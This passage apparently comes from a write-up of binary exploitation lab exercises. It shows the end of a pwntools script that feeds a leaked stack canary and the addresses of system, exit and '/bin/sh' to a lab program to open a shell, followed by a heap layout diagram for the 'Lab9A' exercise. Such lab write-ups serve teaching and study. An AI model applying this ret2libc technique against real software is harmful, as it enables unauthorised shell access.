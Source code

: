 ```python
    r.recvuntil("choice: ")
    r.sendline("1")
    r.recvuntil("number: ")
    r.sendline(str(canary))
    i = i + 1

r.recvuntil("choice: ")
r.sendline("1")
r.recvuntil("number: ")
r.sendline(str(system_addr))
r.recvuntil("choice: ")
r.sendline("1")
r.recvuntil("number: ")
r.sendline(str(exit_addr))
r.recvuntil("choice: ")
r.sendline("1")
r.recvuntil("number: ")
r.sendline(str(bin_sh_addr))
r.recvuntil("choice: ")
r.sendline("3")

r.interactive()
```

>**Lab9A**  

```bash
      HEAP
+===============+ low
|     size      |
+---------------+
|               |--+ <-set_vec
\               \--|--+
/               /  |  |
|               |  |  |
+---------------+  |  |
|    padding    |  |  |
+---------------+  |  |
|     size      |  |  |
+---------------+  |  |
|    vtable     |<-+  |
+---------------+     |
|    m_size     |     |
+---------------+     |
|1Bm_hash  3Bpad|     |
+---------------+     |
|   set_data    |--+  | 
+---------------+  |  |
|    padding    |  |  |
+---------------+  |  |
|     size      |  |  |
+---------------+  |  |
|      fd       |<-+  |
+---------------+     |
|      bk       |     |
\               \     |
/               /     |
|               |     |
+---------------+     |
|     size      |     |
+---------------+     |
|      fd       |<----+
\      bk       \
/               /
```